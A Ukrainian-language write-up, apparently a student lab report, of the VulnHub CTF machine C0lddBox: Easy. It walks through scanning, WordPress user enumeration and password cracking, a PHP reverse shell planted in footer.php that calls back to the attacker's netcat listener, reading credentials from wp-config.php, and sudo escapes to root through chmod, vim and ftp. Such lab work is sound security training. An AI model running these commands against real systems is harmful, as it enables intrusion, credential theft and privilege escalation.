# CTF VulnHub — C0lddBox: Easy

## Мета роботи

Дослідити процес проходження вразливої машини **C0lddBox: Easy** з платформи VulnHub, виконати розвідку цілі, отримати початковий доступ до вебсервера, дослідити конфігураційні файли WordPress та підготувати покроковий звіт щодо подальшого підвищення привілеїв.

## Використане програмне забезпечення

- Kali Linux;
- VulnHub VM C0lddBox: Easy;
- Nmap;
- Gobuster;
- WPScan;
- Netcat;
- WordPress;
- Visual Studio Code.

## Теоретичні відомості

CTF-завдання типу **boot2root** передбачають кілька основних етапів: виявлення цільової машини в мережі, аналіз відкритих сервісів, пошук слабких місць у вебзастосунку, отримання початкового доступу та подальше підвищення привілеїв до рівня `root`.

Під час проходження подібних машин часто використовуються:

- `nmap` — для сканування мережі та сервісів;
- `gobuster` — для пошуку прихованих директорій;
- `wpscan` — для аналізу WordPress і виявлення користувачів;
- `netcat` — для приймання reverse shell;
- `python3 -c 'import pty; pty.spawn("/bin/bash")'` — для покращення інтерактивної оболонки.

## Хід виконання роботи

### 1. Виявлення цільової машини та первинне сканування мережі

На початковому етапі було перевірено мережеву конфігурацію атакуючої машини. У системі було виявлено інтерфейс `eth1`, підключений до підмережі:

```text
192.168.56.0/24
```

Після цього для пошуку активних хостів і сервісів у підмережі було виконано команду:

```bash
sudo nmap -sV --reason 192.168.56.0/24
```

У результаті сканування було виявлено хост:

```text
192.168.56.105
```

На цій адресі було знайдено відкритий вебпорт:

```text
80/tcp open http Apache httpd 2.4.18 (Ubuntu)
```

Це дозволило зробити висновок, що подальша атака буде зосереджена на вебсервісі.




### 2. Пошук директорій вебзастосунку

Після виявлення вебсервера було виконано пошук доступних директорій за допомогою Gobuster:

```bash
gobuster dir -u http://192.168.56.105/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

У результаті було знайдено декілька важливих шляхів:

```text
/wp-content
/wp-includes
/wp-admin
/hidden
```

Наявність директорій `wp-content`, `wp-includes` і `wp-admin` вказувала на використання **WordPress**. Також увагу привернула директорія `/hidden`, яка могла містити додаткові підказки або службову інформацію.




### 3. Перерахування користувачів WordPress

Оскільки вебзастосунок працював на WordPress, наступним логічним кроком стало використання **WPScan** для виявлення користувачів.

У результаті аналізу було знайдено кілька облікових записів:

```text
the cold in person
philip
c0ldd
hugo
```

Ці дані були важливими для подальшої спроби підбору пароля до панелі адміністратора WordPress.




### 4. Підбір пароля до WordPress

Після виявлення користувачів було виконано підбір пароля для користувача `c0ldd`. У результаті атаки було знайдено дійсну комбінацію:

```text
Username: c0ldd
Password: 9876543210
```

Це дозволило отримати доступ до панелі адміністрування WordPress.




### 5. Модифікація шаблону WordPress для отримання reverse shell

Після успішного входу до панелі WordPress було відкрито редактор тем:

```text
Appearance → Editor
```

Для отримання віддаленої оболонки в шаблон `footer.php` було вставлено код із `php-reverse-shell`. У налаштуваннях було вказано IP-адресу атакуючої машини:

```text
192.168.56.104
```

та порт:

```text
4352
```

Після збереження змін система підтвердила, що файл було успішно змінено.




### 6. Отримання reverse shell

На атакуючій машині перед оновленням сторінки було запущено Netcat у режимі прослуховування:

```bash
nc -lvnp 4352
```

Після оновлення сторінки WordPress сервер ініціював зворотне з’єднання, у результаті чого було отримано оболонку:

```text
www-data@ColddBox-Easy
```

Таким чином було отримано початковий доступ до системи від імені вебкористувача `www-data`.




### 7. Покращення інтерактивності оболонки

Отримана оболонка була обмеженою, тому для покращення взаємодії з системою було виконано команду:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Це дозволило отримати більш зручну інтерактивну оболонку Bash.




### 8. Дослідження структури вебкаталогу

Після отримання доступу було виконано перехід до каталогу вебзастосунку:

```bash
cd /var/www/html
ls
```

У результаті було виявлено стандартну структуру WordPress, зокрема файли та каталоги:

```text
wp-admin
wp-content
wp-includes
wp-config.php
index.php
license.txt
xmlrpc.php
```

Найважливішим серед них був файл:

```text
wp-config.php
```

оскільки він зазвичай містить облікові дані для підключення до бази даних.




### 9. Аналіз файла wp-config.php

Для отримання конфігураційних даних WordPress було виконано:

```bash
cat wp-config.php
```

У файлі було знайдено важливі параметри:

```text
DB_NAME: colddbox
DB_USER: c0ldd
DB_PASSWORD: cybersecurity
DB_HOST: localhost
```

Ця інформація є критичною, оскільки часто один і той самий пароль використовується не лише для бази даних, а й для локального системного користувача. Саме тому знайдений пароль потенційно може бути використаний для переходу до користувача `c0ldd`.




Отже, на цьому етапі було:

- виявлено цільову машину в локальній мережі;
- підтверджено наявність вебсервера Apache;
- визначено, що на сервері використовується WordPress;
- знайдено обліковий запис `c0ldd` і підібрано до нього пароль;
- впроваджено PHP reverse shell у шаблон WordPress;
- отримано shell від імені `www-data`;
- знайдено пароль `cybersecurity` у конфігураційному файлі `wp-config.php`.

Наступним кроком є спроба використати знайдені облікові дані для переходу до локального користувача `c0ldd`, отримати користувацький прапор та дослідити можливості підвищення привілеїв.

### 10. Перехід до системного користувача `c0ldd`

Під час аналізу файла `wp-config.php` було знайдено ім’я користувача бази даних і пароль:

```text
DB_USER: c0ldd
DB_PASSWORD: cybersecurity
```

Було перевірено можливість повторного використання цього пароля для локального системного облікового запису. Для переходу до користувача `c0ldd` виконано:

```bash
su c0ldd
```

Після введення пароля:

```text
cybersecurity
```

автентифікація завершилася успішно, а командний рядок змінився на:

```text
c0ldd@ColddBox-Easy
```




Отриманий результат свідчить про повторне використання одного пароля для бази даних і системного облікового запису. Компрометація конфігураційного файла WordPress у такому випадку призводить не лише до доступу до бази даних, а й до розширення доступу в операційній системі.

### 11. Отримання та декодування користувацького прапора

У домашньому каталозі користувача було виконано:

```bash
ls
```

Серед файлів знайдено:

```text
user.txt
```

Його вміст було переглянуто командою:

```bash
cat user.txt
```

У файлі містився рядок, закодований у форматі Base64:

```text
RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==
```




Після декодування Base64 було отримано повідомлення:

```text
Felicidades, primer nivel conseguido!
```

Українською мовою це означає:

```text
Вітаємо, перший рівень пройдено!
```




Таким чином, було успішно отримано перший прапор CTF.

### 12. Перевірка дозволених команд sudo

Для визначення команд, які користувач `c0ldd` може запускати з привілеями суперкористувача, було виконано:

```bash
sudo -l
```

Після введення пароля система відобразила такі дозволені команди:

```text
(root) /usr/bin/vim
(root) /bin/chmod
(root) /usr/bin/ftp
```




Це є небезпечним налаштуванням `sudoers`, оскільки кожна з перелічених програм може бути використана для доступу до захищених файлів або запуску команд із правами `root`.

Для пошуку відповідних технік було використано ресурс **GTFOBins**, який містить приклади використання легітимних Unix-програм для обходу обмежень і підвищення привілеїв.

### 13. Отримання доступу до каталогу root за допомогою `chmod`

Першим було досліджено використання команди `chmod`. Оскільки вона дозволена через `sudo`, користувач може змінювати права доступу до файлів і каталогів від імені суперкористувача.

На GTFOBins було знайдено приклад використання:

```bash
sudo chmod 6777 /path/to/input-file
```




Спочатку команду було виконано в домашньому каталозі:

```bash
sudo chmod 777 root
```

Однак система повернула помилку:

```text
No such file or directory
```

Причиною було те, що відносний шлях `root` шукався в поточному каталозі користувача, а не в кореневому каталозі файлової системи.




Після переходу до кореневого каталогу команду було повторено:

```bash
cd /
sudo chmod 777 root
```

У результаті права доступу до каталогу `/root` були змінені. Після цього стало можливим перейти до нього та прочитати фінальний прапор:

```bash
cd root
ls
cat root.txt
```




Цей метод не створив повноцінну інтерактивну оболонку `root`, але дозволив обійти обмеження файлової системи та прочитати захищений прапор.

> Після завершення такого тесту права каталогу `/root` у реальній системі потрібно було б повернути до безпечного значення. У навчальній CTF-машині зміна виконувалася лише для демонстрації вразливості.

### 14. Отримання root shell за допомогою `vim`

Другий метод ґрунтувався на тому, що редактор `vim` дозволено запускати через `sudo`.

У `vim` можна виконувати зовнішні системні команди. Тому було використано:

```bash
sudo vim -c ':!/bin/bash'
```

Параметр `-c` наказує редактору виконати задану команду одразу після запуску, а конструкція:

```text
:!/bin/bash
```

відкриває оболонку Bash.

Для перевірки рівня привілеїв було виконано:

```bash
whoami
```

Система повернула:

```text
root
```

Після цього було прочитано фінальний прапор:

```bash
cd /root
ls
cat root.txt
```




На відміну від способу з `chmod`, цей метод надав повноцінну командну оболонку з привілеями суперкористувача.

### 15. Отримання root shell за допомогою `ftp`

Третім дозволеним бінарним файлом був клієнт `ftp`. За інформацією GTFOBins, інтерактивний режим FTP дозволяє запускати локальні системні команди за допомогою символу `!`.




Спочатку FTP-клієнт було запущено з привілеями суперкористувача:

```bash
sudo ftp
```

Після відкриття інтерактивного режиму було виконано:

```text
!/bin/bash
```

Оскільки сам процес `ftp` працював від імені `root`, запущена ним оболонка також отримала привілеї суперкористувача.

Перевірка:

```bash
whoami
```

повернула:

```text
root
```

Після цього було підтверджено наявність файла:

```bash
ls
```

Серед результатів відображався:

```text
root.txt
```




Отриманий результат показує, що навіть звичайний клієнтський застосунок може бути небезпечним, якщо його дозволено запускати через `sudo` без належних обмежень.

## Результат виконання

У ході проходження CTF **C0lddBox: Easy** було:

- виявлено IP-адресу цільової машини;
- проскановано відкритий HTTP-сервіс;
- знайдено WordPress і приховані директорії;
- виявлено користувачів WordPress;
- підібрано пароль облікового запису `c0ldd`;
- змінено шаблон WordPress і отримано reverse shell;
- проаналізовано `wp-config.php`;
- виконано перехід до системного користувача `c0ldd`;
- отримано й декодовано користувацький прапор;
- виявлено небезпечні правила `sudo`;
- продемонстровано три способи доступу до root-ресурсів;
- отримано фінальний прапор із файла `root.txt`.

